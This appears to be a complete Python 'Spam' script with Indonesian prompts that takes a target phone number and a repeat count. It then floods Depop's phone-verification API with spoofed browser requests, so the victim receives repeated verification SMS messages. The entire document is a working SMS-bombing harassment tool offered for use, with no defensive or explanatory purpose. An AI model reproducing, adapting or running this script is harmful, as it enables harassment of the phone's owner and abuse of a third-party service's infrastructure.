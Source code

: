 # Spam 
import os,sys,requests,time,json,random

from requests import put

mr_dark1=input('no target: ')

jumlah=int(input('jumlah siksaan: '))

mr_f={

'Host':'webapi.depop.com',

'content-length':'50',

'accept':'application/json, text/plain, */*',

'sec-ch-ua-mobile':'?0',

'save-data':'on',

'user-agent':'Mozilla/5.0 (Linux; Android 9; SM-T825Y) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.72 Safari/537.36',

'content-type':'application/json',

'origin':'https://signup.depop.com',

'sec-fetch-site':'same-site',

'sec-fetch-mode':'cors',

'sec-fetch-dest':'empty',

'referer':'https://signup.depop.com/',

'accept-encoding':'gzip, deflate, br',

'accept-language':'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'

}

dark={

"phone_number":mr_dark1,

"country_code":"ID"

}

for i in range(int(jumlah)):

    darko=requests.put('https://webapi.depop.com/api/v1/auth/verify/phone',headers=mr_f,json=dark)

    ajg=json.loads(darko.text)

    if ajg['is_verified']==False:

         print('BERHASIL SPAM')

         time.sleep(2)

    else:

         print('gagal')

         time.sleep(2)
